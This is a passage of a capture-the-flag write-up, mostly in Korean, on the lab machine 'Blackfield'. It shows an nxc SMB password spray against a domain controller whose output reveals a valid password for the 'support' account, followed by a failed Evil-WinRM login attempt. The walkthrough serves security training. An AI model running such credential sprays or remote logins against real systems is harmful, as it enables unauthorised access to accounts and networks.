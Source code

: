 - 패스워드 스프레이 공격을 진행하였으나, 유효한 계정은 발견되지 않았다.  

```zsh
└─# nxc smb 10.129.229.17 -u SidTypeUsers -p $SUPPORT_PASS --no-brute --continue-on-success                         
SMB         10.129.229.17  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.129.229.17  445    DC01             [-] BLACKFIELD.local\Administrator:#00^BlackKnight STATUS_LOGON_FAILURE
SMB         10.129.229.17  445    DC01             [-] BLACKFIELD.local\Guest:#00^BlackKnight STATUS_LOGON_FAILURE
SMB         10.129.229.17  445    DC01             [-] BLACKFIELD.local\krbtgt:#00^BlackKnight STATUS_LOGON_FAILURE
SMB         10.129.229.17  445    DC01             [-] BLACKFIELD.local\DC01$:#00^BlackKnight STATUS_LOGON_FAILURE
SMB         10.129.229.17  445    DC01             [-] BLACKFIELD.local\audit2020:#00^BlackKnight STATUS_LOGON_FAILURE
SMB         10.129.229.17  445    DC01             [+] BLACKFIELD.local\support:#00^BlackKnight 
SMB         10.129.229.17  445    DC01             [-] BLACKFIELD.local\svc_backup:#00^BlackKnight STATUS_LOGON_FAILURE
SMB         10.129.229.17  445    DC01             [-] BLACKFIELD.local\lydericlefebvre:#00^BlackKnight STATUS_LOGON_FAILURE
SMB         10.129.229.17  445    DC01             [-] BLACKFIELD.local\SRV-WEB$:#00^BlackKnight STATUS_LOGON_FAILURE 
SMB         10.129.229.17  445    DC01             [-] BLACKFIELD.local\SRV-FILE$:#00^BlackKnight STATUS_LOGON_FAILURE 
SMB         10.129.229.17  445    DC01             [-] BLACKFIELD.local\SRV-EXCHANGE$:#00^BlackKnight STATUS_LOGON_FAILURE 
SMB         10.129.229.17  445    DC01             [-] BLACKFIELD.local\SRV-INTRANET$:#00^BlackKnight STATUS_LOGON_FAILURE
```

### Trying to access `support` with Evil-Winrm (Connection Failed.)

- 포트스캔 과정에서 5985(WinRM) 포트가 개방되어 있었으므로, `Evil-WinRM` 으로 접속을 시도했으나 실패했다.  

```zsh
└─# evil-winrm -i $TARGET_IP -u support -p $SUPPORT_PASS

Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError
              
Error: Exiting with code 1
```

---